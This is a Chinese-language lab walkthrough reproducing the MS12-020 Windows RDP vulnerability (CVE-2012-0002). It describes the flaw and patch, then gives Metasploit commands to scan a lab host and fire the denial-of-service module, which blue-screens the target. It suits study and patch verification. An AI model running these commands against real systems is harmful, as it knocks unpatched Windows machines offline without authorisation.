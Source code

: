 # ms12-020漏洞复现

## 1.漏洞简介

MS12-020（全称：Microsoft windows远程桌面协议RDP远程代码执行漏洞）,远程桌面协议（RDP, Remote Desktop Protocol）是一个多通道（multi-channel）的协议，让用户（客户端或称“本地电脑”）连上提供微软终端机服务的电脑（服务器端或称“远程电脑”）。Windows在处理某些对象时存在错误，可通过特制的RDP报文访问未初始化的或已经删除的对象，导致任意代码执行，然后控制系统。

CVE ID: CVE-2012-0002
影响范围：开了RDP的Microsoft Windows XP Professional /Microsoft Windows XP Home / Microsoft Windows Server 2003 Standard Edition /Microsoft Windows Server 2003 Enterprise Edition /Microsoft Windows Server 2003 Datacenter Edition /Microsoft Windows 7 /Windows Server 2008 /Windows Server 2008 R2
官方补丁地址：https://docs.microsoft.com/en-us/security-updates/securitybulletins/2012/ms12-020

## 2.漏洞复现

启动msfconsole

使用ms12-020模块

```
search ms12-020
```

![image-20230808153429084](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308081534155.png)

使用模块0探测：

```
use 0
set rhost 192.168.34.134
run
```

攻击

```
use 1
set rhost 192.168.34.134
run
```

![image-20230808153256005](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308081532036.png)

![image-20230808153325933](https://image-1311319331.cos.ap-beijing.myqcloud.com/image/202308081533971.png)

可以看到靶机已经蓝屏。